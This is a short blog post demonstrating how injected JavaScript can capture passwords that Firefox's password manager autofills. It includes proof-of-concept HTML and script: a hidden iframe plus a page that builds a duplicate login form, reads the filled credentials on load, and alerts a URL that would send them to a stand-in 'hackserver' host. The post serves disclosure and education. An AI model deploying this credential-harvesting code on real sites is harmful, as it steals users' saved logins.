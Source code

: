 ```yaml
---
layout: post
title: Demonstrating Password Manager Almost Vulnerability in FireFox
tags:
- javascript
- security
---
```


The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

First off, we have legitimate site here with its login form:

**`index.php`**
```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
    Username: <input type="text" name="username"></input><br></br>
    Password: <input type="password" name="password"></input><br></br>
    <input type="submit"></input>
</form>
```

And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**`login.php`**
```php?start_inline=1
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```

and my logged in page.

**`loggedin.php`**
```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**`hack.php`**
```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```

In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

```html
<html>
    <body onload="stealit()">
        <form action="login.php" name="login" method="post">
            Username: <input type="text" name="username"></input><br></br>
            Password: <input type="password" name="password"></input><br></br>
        </form>
        <script>
        function stealit()
        {
            var username=document.login.username.value;
            var password=document.login.password.value;
        
            alert("I am gonna do this:  self.location.href='http://hackserver.php?username=" + username + "&amp;password=" + password + "'");
        }
        </script>
    </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.

